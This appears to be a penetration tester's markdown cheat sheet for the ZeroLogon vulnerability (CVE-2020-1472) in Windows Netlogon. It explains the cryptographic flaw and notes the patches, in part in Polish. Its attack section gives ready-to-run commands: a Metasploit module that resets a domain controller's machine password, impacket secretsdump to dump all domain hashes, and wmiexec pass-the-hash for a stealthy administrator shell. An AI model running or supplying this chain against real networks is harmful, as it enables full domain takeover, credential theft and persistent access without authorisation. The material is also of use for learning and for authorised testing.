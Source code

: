 ## ZeroLogon
### Into
CVE-2020-1472

The core of the vulnerability lies in a poor implementation of the ComputeNetlogonCredential call of the Netlogon Remote Protocol (MS-NRPC). The ComputeNetlogonCredential takes an 8-byte challenge as an input, performs a cryptographic transformation using a session key (which proves knowledge of the computer secret), and outputs an 8-byte result. The issue lies in an implementation flaw in the newer method AES-CFB8 (which is also the only one allowed in newer Windows versions) which is used to perform this transformation.  
In order to use AES-CFB8 securely, a random initialization vector (IV) needs to be generated for every plaintext to be encrypted using the same key. However, the ComputeNetlogonCredential function sets the IV to a fixed value of 16 zero bytes. This results in a cryptographic flaw in which encryption of 8-bytes of zeros could yield a ciphertext of zeros with a probability of 1 in 256. Another implementation issue that allows this attack is that unencrypted Netlogon sessions aren’t rejected by servers (by default). The combination of these two flaws could allow an attacker to completely compromise the authentication, and thus to impersonate a server of their choice.*  
(* https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/)
### Defense
Pierwszy etap został wydany 11 sierpnia (Patch Tuesday) w formie aktualizacji zabezpieczeń, która uniemożliwi kontrolerom domeny Windows Active Directory korzystanie z niezabezpieczonej komunikacji RPC.  
9 lutego 2021 r., W ramach kolejnej aktualizacji Patch Tuesday, Microsoft wyda drugą aktualizację, , która wymaga, aby wszystkie urządzenia w sieci korzystały z bezpiecznego RPC.  

### Impact
Password hashes
Shell
### Long impact
Golden Ticket attack  
Pass-the-Hash attack  
Silver Ticket attack  
### Attack
1. Check e.g. https://github.com/SecuraBV/CVE-2020-1472.git
2. Clear machine password.
Best effect (for me) with metasploit module.  
``auxiliary/admin/dcerpc/cve_2020_1472_zerologon``  
params: *set NBNAME _DOMAIN_CONTROLER_NAME_ set RHOSTS _IP_DOMAIN_CONTROLER_*  
OR  
``sudo msfconsole -x "use auxiliary/admin/dcerpc/cve_2020_1472_zerologon; set RHOSTS $dstIP; set NBNAME $nbName; run; exit -y;"``  

3. Hashes dump  
``python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -just-dc '_DOMAIN_NAME_/_DOMAIN_CONTROLER_NAME_$@_IP_DOMAIN_CONTROLER_'``  
or  
``python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 '_DOMAIN_NAME_/_DOMAIN_CONTROLER_NAME_$@_IP_DOMAIN_CONTROLER_'``  
4. Remote shell  
*wmiexec.py: A semi-interactive shell, used through Windows Management Instrumentation. It does not require to install any service/agent at the target server. Runs as Administrator. Highly stealthy.*
``python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -hashes _ADMIN_HASHES_ _ADMIN_@_IP_DOMAIN_CONTROLER_``



